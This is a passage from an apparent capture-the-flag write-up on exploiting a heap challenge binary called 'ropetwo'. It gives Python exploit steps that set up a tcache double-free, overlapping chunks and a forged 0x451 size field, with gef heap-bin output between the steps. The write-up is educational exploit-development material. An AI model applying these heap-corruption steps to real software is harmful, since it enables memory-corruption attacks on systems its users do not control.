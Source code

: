 ![](/img/ropetwo/chunk2.png)

Then, we `realloc` the same chunk as of the same size it was allocated to:-


```py
realloc(0, 0x48, "B"*0x10)
free(0)
```
Now:-

```asm
gef➤  heap bins
────────────────────────────────── Tcachebins for arena 0x7ffff7fbbc40 ──────────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x5555555592b0, size=0x20, flags=PREV_INUSE) 
Tcachebins[idx=3, size=0x50] count=3  ←  Chunk(addr=0x5555555592d0, size=0x50, flags=PREV_INUSE)  ←  Chunk(addr=0x5555555592d0, size=0x50, flags=PREV_INUSE)  →  [loop detected]
Tcachebins[idx=5, size=0x70] count=1  ←  Chunk(addr=0x5555555592b0, size=0x20, flags=PREV_INUSE) 

Now, the global pointer is also cleared

gsssef➤  x/10xg 0x0000555555554000 + 0x4060
0x555555558060:	0x0000000000000000	0x0000000000000000
0x555555558070:	0x0000000000000000	0x0000000000000000

```
Playing close attention here, the bin at the index 3, has now an entry pointing to itself, as shown by the `gef`. This aside, now we will allocate at chunk of size `0z48` which will be retrieved from the index 3, giving the address `0x5555555592d0`, since the chunk would still be in the same bin because of the duplicate entry. Now, we will re-allocate a chunk of size `0x68` at the index `1`, this will retrieve from the index 5 of the `tcache` bin list, since the same chunk `0x5555555592b0` is in two different indices, we write the payload `"C"*0x18 + p64(0x451)`, As the difference between the chunk at index 3 and index 5 of tcache is `0x20`, we will overwrite the `prev_size` to `0x451`, this made the heap structure like this:-

```py
allocate(0, 0x48, "C")
allocate(1, 0x68, b"C"*0x18+p64(0x451))
```

![](/img/ropetwo/size.png)

Once we free the chunk, the chunk at the index 1, it'll be:-

```py
free(1)
```

![](/img/ropetwo/free.png)


Now, we need to at least fill a certain index of the `tcache` bins in such a way that the chunk we `free` after filling the `tcache` lands into the fastbin. Now, the way we fill the `tcache` here is by allocating the chunk at the index 1, and then reallocating the same chunk by extending the size to a much bigger value and then `free`'ing the chunk.
```py
for i in range(9):
  allocate(1, 0x58, "D")
  realloc(1, 0x70, "D")
  free(1)
```
Doing so, the `tcache` bin structure becomes:-
